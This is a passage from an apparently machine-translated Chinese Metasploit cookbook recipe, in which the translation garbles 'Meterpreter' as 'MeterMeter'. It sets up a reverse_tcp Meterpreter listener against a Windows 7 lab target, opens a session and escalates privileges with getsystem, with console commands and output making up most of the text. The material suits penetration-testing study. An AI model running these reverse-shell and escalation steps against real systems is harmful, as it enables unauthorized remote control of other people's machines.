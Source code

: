 让我们从快速介绍 MeterMeter 开始。MeterMeter 是一种先进的有效负载，可大大增强目标机器上的命令执行能力。它是一种通过内存 DLL 注入工作的命令解释器，与传统的命令解释器（通常与 shell 代码一起存在）相比，它更灵活、稳定和可扩展，为我们提供了许多优势。它可以像多个有效负载在目标机器上一起工作一样工作。它通过 stager 套接字进行通信，并提供全面的客户端 ruby API。我们可以通过使用 `windows/meterpreter`目录中可用的有效载荷来获得 MeterMeter 外壳。在此配方中，我们将使用 `windows/meterpreter/reverse_tcp`有效负载，目标机器是运行 ESET NOD32 antivirus 的 Windows 7。

让我们在 msfconsole 中设置侦听器并等待反向连接。

```
msf > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST 192.168.56.101 yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:4444
[*] Starting the payload handler... 
```

## 怎么做。。。

1.  我们的听众现在准备好了。一旦客户端攻击在目标上成功执行，我们将在 msfconsole 中打开一个 meterpeter 会话。

    ```
    [*] Sending stage (752128 bytes) to 192.168.56.1
    [*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:49188) at 2011-11-29 13:26:55 +0530
    meterpreter > 
    ```

2.  现在，我们都准备在杀毒实验中利用 MeterMeter 的威力。我们将执行的第一个命令是 `getuid`，它为我们提供了入侵系统的用户名。用户可以是主管理员，也可以是权限较低的用户。

    ```
    meterpreter > getuid
    Server username: DARKLORD-PC\DARKLORD 
    ```

3.  看起来我们在刚刚进入的系统中没有管理员权限。因此，下一步将是将我们的权限升级到管理员，这样我们就可以在目标上执行命令而不会中断。我们将使用 `getsystem`命令，试图将我们的权限从本地用户提升到管理员。

    ```
    meterpreter > getsystem
    ...got system (via technique 4).. 
    ```
